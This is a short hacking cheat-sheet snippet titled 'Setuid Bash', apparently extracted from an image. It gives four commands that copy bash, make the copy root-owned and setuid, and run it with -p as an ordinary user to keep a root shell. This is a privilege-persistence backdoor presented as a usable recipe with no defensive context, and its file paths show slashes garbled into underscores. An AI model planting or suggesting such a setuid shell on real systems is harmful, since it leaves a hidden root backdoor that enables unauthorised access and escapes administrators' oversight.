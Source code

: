 # Bash
#hacking #bash
Setuid Bash

cp _bin_bash _tmp_foobash
chown root:root _tmp_foobash
chmod 4755 _tmp_foobash
_tmp_foobash -p (as user)
